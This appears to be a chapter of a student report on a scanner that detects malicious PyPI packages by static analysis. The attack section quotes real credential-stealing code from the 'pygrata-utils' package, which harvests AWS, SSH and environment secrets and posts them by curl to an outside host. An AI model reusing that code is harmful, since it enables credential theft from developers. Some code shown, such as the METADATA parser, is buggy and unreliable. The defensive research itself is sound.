\chapter{Project Description}
This project consists in two major parts: the search for dependencies and the static code analysis. 

\section{Searching for Dependencies}
One of the biggest strains of this project was to understand and replicate how \textit{pip} finds and install the dependencies of a given package. Since \textit{pip} is an open-source project, a possibility of mimicking its actions would be to find the implemented code and use it. This was not the utilized way because \textit{pip} is a huge and very complex project and replicating its code is not a viable solution.

When creating a new package, there are many different files where packages could be listed:\\

\textbf{pyproject.toml:} usually used for build dependencies, although in various situations common packages are listed in this file.\\

\textbf{setup.cfg:} used in projects that use the \textit{setuptools} build system. \textit{setuptools} is a commonly used library designed to facilitate packaging other Python projects.\\

\textbf{setup.py:} the most widely used file to list project dependencies, normally using \textit{setuptools}.\\

\textbf{METADATA:} a texfile containing metadata that in some occasions lists dependencies.\\ 

All of these files must be present in the root directory of the project.

The previously mentioned package \textit{setuptools}'s function "setup" present in \textit{setup.py} receives as arguments all necessary metadata and other important details, among which is a list of dependencies. When this program is executed, this information is automatically dealt with. However, for the reason that no program should be executed, another solution to gather dependencies was developed.

A function capable of parsing each file's content was the most effective way to find the dependencies, since all have a pattern for listing dependencies.

\begin{lstlisting} [caption={Code to extract dependencies from \textit{pyproject.toml}.}, captionpos=b]
from pip._vendor import tomli

if has_pyproject:
        with open("pyproject.toml", encoding="utf-8") as file:
            pp_toml = tomli.loads(file.read())
        project = pp_toml.get("project")
    else: project = None
    if project is not None:
        if "dependencies" not in project:
            return []
        dependencies = dependencies + project["dependencies"]
\end{lstlisting}

\begin{lstlisting} [caption={Function to extract dependencies from \textit{setup.cfg}.}, captionpos=b]
from configparser import ConfigParser

if has_setupcfg:
        parser = ConfigParser()
        parser.read("setup.cfg")
        try:
            reqs = parser['options']['install_requires'].split('\n')
            if reqs[0] == "":
                reqs.pop(0)
            dependencies = dependencies + reqs
        except:
            pass
\end{lstlisting}

\begin{lstlisting} [caption={Function to extract dependencies from \textit{setup.py}.}, captionpos=b]
if has_setuppy:
        deps = []
        with open('setup.py', 'r', encoding="utf-8") as file:
            content = file.read()
        if "setup" in content and "install_requires" in content:
            try:
                content = content.translate({ord(c): None for c in string.whitespace})
                content = content.split("install_requires=[")[1]
                content = content.split("]",1)[0]
                raw_deps = content.split(',')
                raw_deps.pop()
                for dep in raw_deps:
                    dep = dep[1:]
                    dep = dep[:-1]
                    deps.append(dep)
            except:
                pass
            dependencies = dependencies + deps
\end{lstlisting}

\begin{lstlisting} [caption={Function to extract dependencies from \textit{METADATA}.}, captionpos=b]
if has_metadata:
        with open("METADATA", 'r+', encoding="utf-8") as file:
            content = file.readlines()
            for line in content:
                if 'Requires-Dist:' in line:
                    dependencies = dependencies.append(line.split(' ', 1))[1]
\end{lstlisting}


The combined output of this four snippets of code is a single list containing all dependencies of a given package.

\section{Downloading Source Code}
When downloading a package using \textit{pip}'s "download" command, it automatically downloads the asked package and all its dependencies' source code. All packages available in PyPI are open source, so this applies to any package.

It would be possible to obtain the source code of a package by using the "download" command. However, due to the feature mentioned above, the \textit{setup.py} file is executed. Keeping that in mind, another way to automatically find and download packages from PyPI has to be used. In a thorough search in \textit{pip}'s source code a "Simple API" was found. This is, indeed, a very simple PyPI's API used for easy access to packages and all its versions without a user-interface. This web page \url{https://pypi.org/simple/}, lists every single package available in PyPI whereas \url{https://pypi.org/simple/packagename} lists every version of packagename. These HTML files only contain the HTML element 'anchor' with a hyperlink.

With access to this API is easy perform web scraping to automatically harvest source code. Each project has all its versions available in either both \textit{.tar.gz} and \textit{.whl} files or only \textit{.tar.gz} files. The contents of both are equal, but the \textit{.tar.gz} version was chosen for the ease of extraction.


\section{Types of Attacks}
Some online articles from 2022 mention four malicious packages: \textit{pygrata}, \textit{pygrata-utils}, \textit{hkg-sol-utils} and \textit{loglib-modules}. Only \textit{pygrata} and \textit{pygrata-utils} are going to be focused on because they are identical to the others. The first "manually" installs \textit{pygrata-utils} through a subprocess using \textit{pip} and the latter's \textit{setup.py} steals AWS (Amazon Web Services) credentials.

\begin{lstlisting} [caption={Malicious lines of code in \textit{pygrata} package}, captionpos=b]
    subprocess.getoutput('dig @1.1.1.1 install.api.pygrata.com')
    subprocess.getoutput('pip install pygrata-utils -U')
\end{lstlisting}

\begin{lstlisting} [caption={Malicious lines of code in \textit{pygrata-utils} package}, captionpos=b]
acmd = 'curl -m 3 http://169.254.169.254/latest/meta-data/iam/security-credentials/'
bcmd = 'cd ~/.aws && cat credentials'
ccmd = 'env'
cdcmd = 'cd ~/.ssh && ls && cat *'
ipcmd = 'ip addr show'
catenvcmd = 'cd ~/ && ls .env* && cat .env*'


result = subprocess.getoutput(acmd)
rolename = str(result).split('instance-profile/')[1].split('",')[0]
accmd = 'curl -m 3 http://169.254.169.254/latest/meta-data/iam/security-credentials/' + rolename + '/'
getcred = subprocess.getoutput(accmd)
all3 = "metadata \n ----------------------------------------- \n \n" + result + getcred
result2 = subprocess.getoutput(bcmd)
all4 = " \n \n a \n ----------------------------------------- \n \n" + result2
hostname = socket.gethostname()
username = getpass.getuser()
cwd = os.getcwd()
ipadd = subprocess.getoutput(ipcmd)
res3 = {'hostname':hostname,'cwd':cwd,'username':username,'IP':ipadd}    
all5 = "\n \n details \n ----------------------------------------- \n \n " + str(res3)
result3 = subprocess.getoutput(ccmd)
all6 = "\n \n en \n ----------------------------------------- \n \n " + result3
result4 = subprocess.getoutput(cdcmd)
all7 = "\n \n ssh \n ----------------------------------------- \n \n " + result4
all8 = str(all3) + str(all4) + str(all5) + str(all6) + str(all7)    
filename1 = str(random.randint(0, 99999999999)) + '.txt'
filename2 = str(filename1)
    
subprocess.getoutput("curl -X POST http://graph.pygrata.com:8000/upload -F 'files=@" + filename2 + "'")
subprocess.getoutput('curl -X POST http://graphs.pygrata.com/api.php -d "textdata=' + all8 + '"')
\end{lstlisting}

A article by Fortinet shows a different approach used by attackers, where a package, \textit{httpssp}, has a Base 64 encoding so the source code is not immediately identifiable.

This means that, on the one hand, there is a great diversification regarding the type, method and goal of these attacks. On the other hand, it is quite difficult to find source code to explore since the majority of known malicious packages have already been taken down by PyPI and their code is not available. This massively impacts the success of the code analyzing tool to be built, for it has to address each method of attack.

\section{Analyzing Static Code}
The three addressed types of attack were the ones mentioned in the last section: subprocesses installing other packages, requesting and posting from "hardcoded" URLs and Base 64 decoding the code and performing the first two again.

\subsection{Installation Through \textit{pip} Using Terminal Commands}
The AST package for Python statically analyzes source code and builds an abstract syntactic tree (AST). Building an AST makes possible to group called functions and its arguments.

Using this tree, a list containing lists of [functionname|arguments] is obtained and this list is iterated through, searching for functions capable of executing terminal commands (e.g. subprocess.getoutput) and, in case these are found, search for an argument containing "\textit{pip install}" or "\textit{pip download}". In case ant of these exist, this function returns True.

This procedure has the disadvantage of not being capable of keeping track of variable values. That is, for example, if subprocess.getoutput is called as subprocess.getoutput(str) and str is 'pip install packagename', this method would not work.

\subsection{Finding Hardcoded URLs}
When it comes to finding URLs in source code there are a few variables that have to be taken into account. If a URL is present in a comment, it is not dangerous. Moreover, if it is contained in a printing function it is also benign. It is important to check these factors because, if not, the number of packages flagged as malicious would be enormous and little to no information would be extracted.

\subsubsection{Removing Comments}
Each time a package is analyzed, a script removes all comments and \textit{docstrings}. This is done using the \textit{tokenize} library and creating a new Python file — \textit{cleansetup.py} — containing only tokens that are not comments or \textit{docstrings}.

Every following step is performed at \textit{cleansetup.py}.

\subsubsection{Discarding Printed URLs}
As done in section 3.4.1, an AST assists with identifying printing functions such as "print" and "textwrap.dedent". This is followed by searching the arguments of this functions, and finding URLs using a regular expression.

\subsubsection{Discarding URLs in setup function}
As previously mentioned, it is very common to use the libraries \textit{distutils} and \textit{setuptools}'s "setup" function to make the management of the package's metadata. Two of the accepted arguments for this function are "url" and "downloadurl" which contain a URL or a list of URLs that are benign, so they must not be taken into account while searching for URLs.

The AST solution did not work as expected for this problem as the function is quite complex and the tree would not display the arguments of arguments correctly. A parsing solution seemed to work better: the program is striped (remaining only the setup function) and a search using a regular expression is performed.

\subsubsection{Remaining URLs}
In a similar technique to the previous subsections, the remaining URLs are found by the following regular expression:
\begin{lstlisting}[language=python]
  'https?:\\/\\/(?:www\\.)?[-a-zA-Z0-9@:%._\\+~#=]{1,256}\\.[a-zA-Z0-9()]{1,6}\\b(?:[-a-zA-Z0-9()@:%_\\+.~#?&\\/=]*)
\end{lstlisting}
The found URLs automatically trigger the package as a suspicious one. This happens because any further verification is outside of the static analysis field and not a part of this project, but may be a necessary step nonetheless.

\section{Features and Piecing Together}
Three different features were added to this project, making everything come together. The three following subsections will cover the different options available.

\subsection{Iterate through PyPI's Package List}
The default option when executing the main file of this project — \textit{main.py} — iterates through PyPI. It is checked whether a \textit{pypipackages.txt} file exists or not. This file should contain a list of all packages within PyPI and, in case this file does not exist, it uses a webscraping technique at \url{https://pypi.org/simple/} into a text file. This process typically takes three to five minutes, so in order to avoid this process to be repeated, a verification was added. Every time this script is executed, a list is created from this file and the search for dependencies and scanning is applied to each package present in this list. In order to avoid unnecessary steps (that is, scanning and building a dependency tree for a package more than once), every package is inserted in a set when scanned. Each time a package is to be scanned, it is checked whether it is present in this set or not. If it is, the process does not continue.

Whenever a package is identified as malicious, it is moved to a different directory (flaggedpackages) from a "downloadedpkgs" directory. This directory is the destination of the downloaded zip files from PyPI and, if it is not flagged as suspicious, it is removed.

What this program essentially does is verifying and recursively searching for packages. This outputs a dependency tree as can be seen in Figure 3.1.

\begin{figure}[ht]
\centering

\includegraphics[width=8cm]{images/mainexe}
\caption{Part of the output of \textit{main.py}}
\end{figure}

\subsection{Perform the Search in a Given Package}
With the flag option "-p" or "--package", it is possible to accept an input package:
\bigskip
\begin{lstlisting}[language=bash]
  $ python main.py -p *package_name*
\end{lstlisting}
\bigskip
This restricts the execution to a single package and its dependencies. This option was considered essential since the execution time on the default one is unfeasible for a quick check on a specific package. If, for example, one was to verify if the package "pandas" is malicious or not, it would take hours or even days to get to "pandas".

\subsection{Only Download Package and Dependencies}
Flag "-d" or "--download" mimics the behavior of the "\textit{pip} download" command. The main difference between this implementation and \textit{pip}'s is whether the Python files are executed or not. This enables the user to easily check for dependencies and get their source code without ever risking executing malicious code.
\bigskip
\begin{lstlisting}[language=bash]
  $ python main.py -d *package_name*
\end{lstlisting}
\bigskip

\subsection{Checking a Single Python File}
The last implemented option is the support of checking a single Python file for malicious source code. The "-c" or "--check" enables the user to input a Python file and perform the same verification as mentioned above, without ever executing the potentially malicious code.
\bigskip
\begin{lstlisting}[language=bash]
  $ python main.py -c filename.py
\end{lstlisting}
\bigskip

\section{Results}
It was possible to correctly identify and collect package dependencies through a simple approach. The final program is capable of identifying both packages shown in section 3.3 as malicious.

Conversely, it was found that identifying attacks merely through static code analysis is not an easy task: the verification has to usually be very "attack-oriented" (that is, in order to successfully recognize an attack it has to be seen) because, as stated in section 3.3, there is a high variety of known attacks, not counting the ones not yet discovered. It is also important to note that the current method of scanning has a very high false-negative tendency and it may be unfeasible to manually verify all falsely flagged packages.
Moreover, the process of downloading packages (regarding the iteration through PyPI) is quite slow and demanding. This means that, even if the scanning was precise, searching though all PyPI's packages is a challenging process.